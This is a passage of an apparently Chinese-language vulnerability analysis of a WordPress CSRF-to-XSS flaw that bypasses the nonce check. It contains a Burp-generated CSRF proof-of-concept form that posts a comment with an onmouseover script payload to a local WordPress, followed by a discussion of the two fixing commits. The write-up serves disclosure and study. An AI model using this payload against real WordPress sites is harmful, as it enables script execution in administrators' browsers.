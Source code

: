 
## 漏洞复现

搭建完成后使用admin账号登陆

然后构造恶意页面

```
&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
    &lt;form action="http://127.0.0.1/wordpress/wp-comments-post.php" method="POST"&gt;
      &lt;input type="hidden" name="comment" value="&amp;lt;a&amp;#32;title&amp;#61;&amp;apos;aa&amp;#32;&amp;quot;&amp;#32;onmouseover&amp;#61;alert&amp;#40;&amp;#41;&amp;#32;id&amp;#61;&amp;quot;&amp;#32;&amp;apos;&amp;#32;rel&amp;#61;&amp;apos;111&amp;apos;&amp;gt;please click me" /&gt;
      &lt;input type="hidden" name="submit" value="%E5%8F%91%E8%A1%A8%E8%AF%84%E8%AE%BA /&gt;
      &lt;input type="hidden" name="comment&amp;#95;post&amp;#95;ID" value="1" /&gt;
      &lt;input type="hidden" name="comment&amp;#95;parent" value="0" /&gt;
      &lt;input type="hidden" name="&amp;#95;wp&amp;#95;unfiltered&amp;#95;html&amp;#95;comment" value="1" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
  &lt;/body&gt;
&lt;/html&gt;
```

使用登陆过超级管理员的浏览器点开该页面，然后就会提交评论，当鼠标移动到评论上是，则会执行相应的js

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2019/03/3ea885ea-5471-49c9-a97d-539d9645cb0e.png-w331s)



## 从漏洞补丁看漏洞分析

刚才我们说到了一个关键点，整个漏洞实际上可以看作是一个绕过Nonce机制实现的一个WordPress XSS漏洞。

这里我们从漏洞补丁出发，重新分析下这个漏洞的几个关键点。这个漏洞到目前为止，一共有2个commit用来修复。
- [https://github.com/WordPress/WordPress/commit/2504efcf9439c1961c4108057e8f3f48239a244b#diff-e7c589fb0969e0f690bf2f051517d0ad](https://github.com/WordPress/WordPress/commit/2504efcf9439c1961c4108057e8f3f48239a244b#diff-e7c589fb0969e0f690bf2f051517d0ad)
- [https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b#diff-91531896c6f70c8a4b4b321d1369c988](https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b#diff-91531896c6f70c8a4b4b321d1369c988)
第一个commit首先是修复了那个不该有的xss漏洞

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2019/03/990e84b5-a9e5-4b2b-b326-dd1372671f63.png-w331s)

esc_attr是WordPress内置的过滤函数，专用来处理属性处的可能出现xss的位置。

第二个commit就比较有趣了，在我看来这个commit更像是一个半成品，可能是由于修复比较匆忙，先把修复的patch更新了再说的感觉。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2019/03/42a1f3a2-cb8a-4cce-8759-177a8c36487d.png-w331s)
